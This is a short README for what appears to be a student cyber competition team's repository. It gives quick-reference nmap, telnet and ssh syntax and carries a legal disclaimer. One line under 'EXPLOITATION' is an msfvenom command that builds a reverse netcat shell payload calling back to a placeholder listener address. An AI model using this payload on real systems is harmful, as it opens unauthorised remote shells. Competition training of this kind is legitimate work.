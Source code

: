 # A Public Repository for the UAT Cyber Competition Team
The folders represent various scripts and resources applicable to individual members or subject areas to support Blue or Red team operations.  The guidance below is for quick reference and will continue to evolve as we develop use-cases.
> ### Using any of the resources within this repository without proper permission by the target network owner will likely be illegal.  These resources are for educational purposes only. 

## RECONNAISSANCE
### Enumeration (Active Recon)
#### Network Enumeration
The first step in evaluating a target network is to identify open ports and active services.

NMAP Commands\
nmap [flag(s)] [target/file]



References:\
[Try Hack Me NMAP room](https://tryhackme.com/r/room/furthernmap)\
[NMAP Cheat Sheet All Commands & Flags Nathan House](https://www.stationx.net/nmap-cheat-sheet/)


## ACCESS

Telnet Commands:\
telnet [ip] [port]

SSH Commands:\
ssh username@IP

## EXPLOITATION

Reverse Shell:\
[obtain your lhost from the terminal using 
'''
ifconfig
''' or 
'''
ip a
'''\
msfvenom -p cmd/unix/reverse_netcat lhost=xx.xx.xx.xx lport=4444 R
